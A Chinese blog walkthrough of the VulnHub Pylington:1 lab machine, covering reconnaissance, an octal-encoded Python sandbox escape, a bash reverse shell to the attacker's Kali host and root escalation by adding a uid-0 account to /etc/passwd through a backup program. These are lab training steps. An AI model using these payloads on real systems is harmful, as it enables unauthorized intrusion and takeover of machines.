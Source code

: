 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/hHPvGnUdc8NY2mbF7V7gRA)

下载地址

https://www.vulnhub.com/entry/pylington-1,684/

环境搭建

VirtualBox，vmware

靶机 pylington:1：192.168.56.105

kali：192.168.56.102  

信息收集

存活 IP 扫描（py 脚本扫描）

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHxPiaibZEO7EmiafJAr07Ss0Fjf4YqhK7gMny2ahtPLLnFznNdcf3ut1mA/640?wx_fmt=png)

发现靶机的 IP 为 192.168.56.105  

端口扫描（Nmap）

```
nmap -sS -sV -T5 -A 192.168.56.105 
-sS：Tcp SYN Scan (sS)，半开放扫描，非三次握手的TCP扫描
-sV：版本检测，扫描目标主机和端口上运行的软件的版本
-T [0-6]：设置定时模板（越高越快）,越高越容易被IDS、防火墙检测屏蔽掉
-A：综合扫描
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeH1ddY3XG3hAm6q3PZxjwbiaLs8eC2NP0aueSiakBR9lISY1w14pHUop4g/640?wx_fmt=png)

开放端口：22 端口和 80 端口  

22 端口

使用 hydra 进行爆破，没有爆破出账号密码

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHcLib8vYiaePKYFOlwSmlPVs9x705sRv5RcbAcyXWE42LIHfrvtiabKo8g/640?wx_fmt=png)

80 端口  

查看源代码没有发现有价值的信息

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHTGJlqHSxRFFDR4F73R9za24cW7iaYWct4LzhiaqbOPatWz7lJofkomiaQ/640?wx_fmt=png)

有个注册页面，无法注册，登录页面经过尝试不存在 sql 注入  

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeH4zY0RB0CGebzelBD305WyPgRCKyEjcyKjVPV8jldicHqiaJQWTbrN3Xg/640?wx_fmt=png)

查看 robots.txt，发现三个目录，进行查看

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHxdnbibMCxXFqRWic9glN3IzKISRrZug8h6gTeic3ibze9WKrjP81Dm3nTg/640?wx_fmt=png)

/zbir7mn240soxhicso2z 页面获取到一个用户名密码

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeH4aaq22Azo88EFQcYre77BztSbfEUEEvweIfaUK0r5eb42RVjj8sm1g/640?wx_fmt=png)

使用发现的账号密码进行登录，成功登录

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHVK886blrpwIrwCSTLiawibfEnG1uibRibezoOWibETjaLvNcleCdA58q3XQ/640?wx_fmt=png)

点击 welcome back，stevel 出现 pythonIDE  

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHVtQhS9n8HCwm133O690vYsc6s8KBicIsyWbxicSWdQLfLDR3uIv4s9lA/640?wx_fmt=png)

点击在此获得得到 python 文件进行查看  

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHCHp3wziac10tdibOwAnmenW5y8Wv2YRF2RCHQvZWLViaYhFZKKXic8vPYw/640?wx_fmt=png)

发现不能出现 import，os，open，否则就会检测到恶意

```
def check_if_safe(code: str) -> bool:  #-> 描述函数的返回类型,从而方便开发人员使用,code:str,输入的只能是str类型
    if 'import' in code: # import is too dangerous
        return False
    elif 'os' in code: # os is too dangerous
        return False
    elif 'open' in code: # opening files is also too dangerous
        return False
    else:
        return True

print(check_if_safe(code='import os'))
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHlowVel8g6hj1VZ2rqlF7dZJPIia7zMRNEJH0G8FPloIbXC5cxdF4d8A/640?wx_fmt=png)

提示沙盒检测到恶意程序

漏洞利用

命令执行获取 shell

**Bypass python sandboxes**

https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes#executing-python-code

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHEVyV2Yk23IcnJibSpnSx2hDQtodowWf98FR8UrNQky6urE1ibPJibn4GA/640?wx_fmt=png)

经过测试，使用`__import__()`函数把数据八进制可以绕过成功执行命令

使用解码解密工具进行转化

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeH8yZXjfQM2N7m0SXQzRibX4OHToylhibeUCHLcl1uxO3EFLjLOTpThvfw/640?wx_fmt=png)

在 program 中输入：

exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHLD80cau5yVvaUEsicWptmgUKS99e0d4HWiajbp1vW2ZKRg8ydq6FQSVw/640?wx_fmt=png)

成功执行了 ls 命令

kali nc 监听

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHLmNl1aoibnOibwg9PY4DvsgB2kicngd2PUIhE9OQ6ZmpEvsVibQRFIzAog/640?wx_fmt=png)

Bash 反弹 shell：bash -i >& /dev/tcp/192.168.56.102/12340>&1

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHc1BVa4KzGBuBmiaWkST4Ag7ttibmlhTlrHgibiaJib1IIl7aALEHNxSI1sg/640?wx_fmt=png)

获得 shell  

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHDU79lFL1VicXOeBmbhb9MiaPoapYHTtCU0ad0MnEg3icubGfLia5ricTA8A/640?wx_fmt=png)

提权

获取一个可交互式的 shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

在用户 py 目录下发现可运行文件 typing

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHz7OqSezCh2RohyW23uqlX9kcN8Ovp6m3Uff4yfaefveficKnOKW8LDA/640?wx_fmt=png)

运行后提示输入 the quick brown fox jumps over thelazy dog 后得到密码 54ezhCGaJV

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHFNZCOWhVHRUUXpbLvTCbup22UUuM9TqI12dIhJibqaVMLkTvZ6XdvKw/640?wx_fmt=png)

ssh 连接进行登录 py 用户，查看 user.txt 得到第一个 flag

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHdD2sjicXmsbsZq8KcWLomJqaPT6ExwEb4paoU9r3TGWicWd318Qlyqkg/640?wx_fmt=png)

在 Secret_stuff 目录下的 backup.cc 文件进行查看

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHaJOXibw8J0PR5YwxytcHCUaOOwAO08b5kKnicQt4Y5F0W6OqKF4jXAtg/640?wx_fmt=png)

发现有备份文件的功能，可以利用将账号密码写入到 / etc/passwd 里面获得 root 权限  

使用 mkpasswd 查看本机的当前密码

```
mkpasswd -m sha-512
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHaDCOa4qQpyjntqibY1nRG1B09PiblfhNibaN6MvVuBNSYETwabfznWDcw/640?wx_fmt=png)

根据 /etc/passwd 编辑一个具有 root 权限的用户

```
lemonlove:$6$PX/xRZ043jtDQv1l$F4sTC8J3QHy7EJnHAnUSyHX0zqwjemKCjqaruBxjmlOEKZhWvCoQ9Sn86FDsrVZM8P9vwKrdqGj4OzmZE9q1P1:0:0:root:/root:/bin/bash
```

接着执行 backup 进行备份到 /etc/passwd

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHHjegXDTtjTSiaibxeCQq74QDkGvguUgpZ8bz2RDJNN5FonZ7IQG4WiazQ/640?wx_fmt=png)

备份完成后查看 passwd 文件发现已经添加成功

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHKdo01NIHp6wJibgnJpAVaxWcQ3RicnZES6ATUSHufAGducIpNxYQ9coA/640?wx_fmt=png)

切换到 lemonlove 账号，进入到 root 目录获取到第二个 flag

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHiafTh9n179bNkCuy7AgmGSGpWToYLSG2PGjeNzhrzHiad0ibJib55v20uw/640?wx_fmt=png)

解码解密工具

公众号后台回复【离线解码解密工具】就可以拿到下载链接啦

 7 月 14 日白色情人节

SlLVER  DAY

为你千千万万遍

![](https://mmbiz.qpic.cn/mmbiz_jpg/0YvAy5BgkyP4sG9I5Uia79XON2icwLeIeHic51P0icvrpgTl6Lg4YIZgpClR58Ql0U4ObaOgHPLCZUXGd5Q7qdyerw/640?wx_fmt=jpeg)

银色情人节也是爱侣之间互赠银制礼品的日子

传统习俗是用银戒订婚，戴在手上，作为甜蜜

心情的见证。